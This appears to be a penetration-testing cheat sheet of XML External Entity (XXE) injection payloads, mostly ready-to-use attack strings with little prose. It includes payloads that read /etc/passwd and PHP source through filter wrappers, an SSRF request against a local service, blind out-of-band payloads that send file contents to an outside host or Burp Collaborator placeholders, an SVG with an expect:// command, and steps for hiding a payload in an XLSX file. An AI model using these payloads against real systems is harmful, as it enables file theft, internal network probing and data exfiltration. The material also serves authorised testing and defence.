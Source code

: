 # XML External Entity (XXE)

## Exploiting XXE to retrieve files

### Classic XXE

Display content of `/etc/passwd.`

```bash
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### Classic XXE Base64 encoded

Base64 string == `file://etc/passwd`

```bash
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >
]>
<foo>&xxe;</foo>
```

### Xinclude attack

```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```bash
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://YOURBURCOLLABORATOR.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to `www.web.com` (you may receive only the first line).

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.web.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

## XXE in weird files

### XXE inside SVG

```bash
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

### XXE inside SOAP

```bash
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside XLSX file

Extract the excel file.

```bash
$ mkdir XXE && cd XXE
$ unzip ../XXE.xlsx
Archive:  ../XXE.xlsx
  inflating: xl/drawings/drawing1.xml
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/sharedStrings.xml
  inflating: xl/styles.xml
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: _rels/.rels
  inflating: [Content_Types].xml
```

Add your blind XXE payload inside `xl/workbook.xml`.

```bash
<xml...>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<x>&xxe;</x>
<workbook...>
```

Alternativly, add your payload in `xl/sharedStrings.xml`:

```bash
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&xxe;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

Rebuild the Excel file.

```
$ zip -r ../poc.xlsx *
updating: [Content_Types].xml (deflated 71%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 60%)
updating: docProps/ (stored 0%)
updating: docProps/app.xml (deflated 51%)
updating: docProps/core.xml (deflated 50%)
updating: xl/ (stored 0%)
updating: xl/workbook.xml (deflated 56%)
updating: xl/worksheets/ (stored 0%)
updating: xl/worksheets/sheet1.xml (deflated 53%)
updating: xl/styles.xml (deflated 60%)
updating: xl/theme/ (stored 0%)
updating: xl/theme/theme1.xml (deflated 80%)
updating: xl/_rels/ (stored 0%)
updating: xl/_rels/workbook.xml.rels (deflated 66%)
updating: xl/sharedStrings.xml (deflated 17%)
```

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files" %}
XXE Payloads Repository
{% endembed %}

